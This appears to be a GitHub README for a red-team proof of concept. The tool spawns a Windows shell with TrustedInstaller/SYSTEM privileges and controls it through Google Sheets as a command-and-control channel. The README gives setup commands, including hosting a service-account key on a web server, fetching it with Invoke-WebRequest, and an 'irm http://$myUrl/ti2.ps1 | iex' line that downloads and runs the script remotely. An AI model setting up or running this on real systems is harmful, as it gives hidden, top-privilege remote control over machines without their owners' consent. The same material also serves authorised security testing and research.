 # TrustedInstallerPOC-GC2-Sheet

A simple Proof of Concept in Powershell/Go to spawn a new shell as NT Authority\System using Google Sheets as a C2 interface. Read more about how this PoC works on this [blog about TrustedInstaller](https://fourcore.io/blogs/no-more-access-denied-i-am-trustedinstaller) and [GC2-sheet](https://github.com/looCiprian/GC2-sheet). It is important to note that this should be executed as a user which has SeDebugPrivileges. This repository leverages forked repositories: looCiprian/GC2-sheet and FourCoreLabs/TrustedInstallerPOC.

## Configuration

The Powershell script ti2.ps1 pulls nathansb2022/GC2-sheet-Scripted, nathansb2022/TrustedInstallerPOC-GC2-Sheet, and go1.21.12.windows-amd64.zip. Lastly, ti2.ps1 is configured to pull your Google service account .json key. See below for alternative method. For Google Sheets and Drive setup reference [GC2-Sheet-Scripted](https://github.com/nathansb2022/GC2-sheet-Scripted).

## POC

1. Clone the repository

```
$ git clone https://github.com/nathansb2022TrustedInstallerPOC-GC2-Sheet.git
```

2. Ensure you have a web server hosting your Google service account .json key or drop in GC2-Sheet-Scripted-Master

```
$ python3 -m uploadserver 80
```

3. Optional: If you are adding the .json key manually remove line 42 from ti2.ps1

```
Invoke-WebRequest -Uri $keyFileUrl -UseBasicParsing -OutFile ".\master\GC2-sheet-Scripted-master\$myKey"
```

4. Edit ti2.ps1 and define variables

```
$myUrl = ""
$myKey = ""
$mySheetId = ""
$myDriveId = ""
```

6. Either call the ti2.ps1 or execute it in go

```
$ .\ti2.ps1
```
```
$ irm http://$myUrl/ti2.ps1 | iex
```
```
$ go run ti $myKey $mySheetId $myDriveId
```


This will spawn a new cmd shell with TrustedInstaller privileges in Google Sheets which can be confirmed by running the command `whoami /all`

<p align="center">
  <img alt="Logo" src="img/Screenshot from 2024-08-11 20-10-32.png" height="30%" width="30%">
</p>

## API

- RunAsTrustedInstaller
  - Use the `RunAsTrustedInstaller` function to pass any executable to be run with TrustedInstaller privileges.
